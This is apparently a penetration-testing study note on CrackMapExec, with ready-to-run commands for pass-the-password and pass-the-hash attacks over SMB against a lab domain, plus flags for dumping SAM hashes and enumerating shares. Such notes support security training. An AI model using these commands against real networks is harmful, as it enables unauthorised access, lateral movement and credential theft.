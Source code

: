 # Crackmapexec

# Pass the Password

## Usage

```bash
crackmapexec smb 192.168.70.0/24 -u fcastle -d MARVEL.local -p Password1
```
- -u = Username
- -d = Domain
- -p = Password

## Output

![Crackmapexec smb pass the password attack output](image.png)

# Pass the Hash

```bash
crackmapexec smb 192.168.70.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b
```

### General Crackmapexec functions:
- --sam = dumps out the sam (hashes)
- --local-auth
- --shares = enumerate shares

# Crackmapexec Database

```bash
cmedb
>help
```